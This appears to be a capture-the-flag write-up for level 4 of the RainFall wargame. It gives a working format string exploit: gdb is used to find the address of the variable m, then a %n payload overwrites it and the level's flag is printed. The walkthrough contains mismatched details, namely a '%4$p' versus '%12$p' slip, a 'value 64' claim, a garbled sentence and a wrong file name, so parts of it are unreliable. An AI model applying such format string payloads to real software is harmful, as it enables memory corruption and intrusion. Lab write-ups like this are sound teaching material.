 
# Level 4

This program is vulnerable to format string like the last one, but this time we need to write a big value

Let's find the address to the m variable:

```bash
level4@RainFall:~$ gdb -q level4 
Reading symbols from /home/user/level4/level4...(no debugging symbols found)...done.
(gdb) p &m
$1 = (<data variable, no debug info> *) 0x8049810
(gdb) 
```

We have the address of the variable


Now we can see that the buffer is the 12th argument on the stack, so we can use the %4$p format specifier to print the value of the buffer:


```
level4@RainFall:~$ ./level4 
AAAA%12$p
AAAA0x41414141
```

Now we can use the `%n` format specifier to write the value 64 to the address of the `m` variable. To achieve this, we need to write 16930116 characters to the buffer first, w, we just need to write the proper value at this address.  Note that we only need to add 16930112 as the address is 4 bytes long.


```bash
level4@RainFall:~$ python2 -c "print '\x10\x98\x04\x08' + '%16930112x' + '%12\$n'" > /tmp/exploit4
level4@RainFall:~$ cat /tmp/exploit2  | ./level4
[......SNIP......]
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```


